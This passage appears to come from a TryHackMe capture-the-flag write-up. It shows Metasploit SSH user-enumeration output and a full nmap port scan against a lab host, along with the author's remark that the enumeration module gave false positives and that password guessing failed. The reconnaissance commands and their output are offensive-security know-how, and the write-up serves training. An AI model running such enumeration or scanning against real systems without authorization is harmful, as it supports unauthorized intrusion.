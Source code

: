 ```sh
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 34.253.63.1:22 - SSH - Using malformed packet technique
[*] 34.253.63.1:22 - SSH - Starting scan
[+] 34.253.63.1:22 - SSH - User 'robyn' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```sh
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 34.253.63.1:22 - SSH - Using malformed packet technique
[*] 34.253.63.1:22 - SSH - Starting scan
[+] 34.253.63.1:22 - SSH - User 'admin' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Well, it sounds like we got it right? I've tried to repeat this right now, but I couldn't - at the time of the event this scanner retuned false positives on all users feeded to the script. Now it seems to work, returning `true` on `mysql` user only.

I've tried to guess passwords but no luck there.

Having all this information I didn't manage to go any further. So, I've tried to go back a little and connect to the THM VPN.

[Back to top](#contents) ⤴

# THM Network

So, starting from the beginning:

```sh
$ nmap -p- -Pn 34.253.63.1 -vv

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 13:31 CEST
Initiating Parallel DNS resolution of 1 host. at 13:31
Completed Parallel DNS resolution of 1 host. at 13:31, 0.01s elapsed
Initiating Connect Scan at 13:31
Scanning ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1) [65535 ports]
Discovered open port 22222/tcp on 34.253.63.1
Discovered open port 8096/tcp on 34.253.63.1
Discovered open port 8000/tcp on 34.253.63.1
Completed Connect Scan at 15:18, 6431.27s elapsed (65535 total ports)

Nmap scan report for ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up, received user-set (0.052s latency).
Scanned at 2021-04-27 13:31:29 CEST for 6431s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT      STATE SERVICE    REASON
8000/tcp  open  http-alt   syn-ack
8096/tcp  open  unknown    syn-ack
22222/tcp open  easyengine syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6431.51 seconds
```
